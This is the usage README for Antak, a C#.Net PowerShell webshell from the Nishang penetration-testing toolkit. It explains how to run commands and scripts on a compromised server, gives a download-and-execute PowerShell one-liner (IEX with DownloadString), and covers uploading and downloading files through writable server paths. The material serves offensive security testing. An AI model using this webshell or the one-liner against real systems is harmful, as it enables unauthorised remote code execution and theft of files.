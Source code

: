 Antak is a webshell written in C#.Net which utilizes powershell.
Antak is a part of Nishang and updates could be found here:
https://github.com/samratashok/nishang

Use this shell as a normal powershell console. Each command is executed in a new process, keep this in mind
while using commands (like changing current directory or running session aware scripts). 

Executing PowerShell scripts on the target - 
1. Paste the script in command textbox and click 'Encode and Execute'. A reasonably large script could be executed using this.

2. Use powershell one-liner (example below) for download & execute in the command box.
IEX ((New-Object Net.WebClient).DownloadString('URL to script here')); [Arguments here]

3. By uploading the script to the target and executing it.

4. Make the script a semi-colon separated one-liner.


Files can be uploaded and downloaded using the respective buttons.

Uploading a file - 
To upload a file you must mention the actual path on server (with write permissions) in command textbox. 
(OS temporary directory like C:\Windows\Temp may be writable.)
Then use Browse and Upload buttons to upload file to that path.

Downloading a file - 
To download a file enter the actual path on the server in command textbox.
Then click on Download button.


A detailed blog post on Antak could be found here
http://www.labofapenetrationtester.com/2014/06/introducing-antak.html
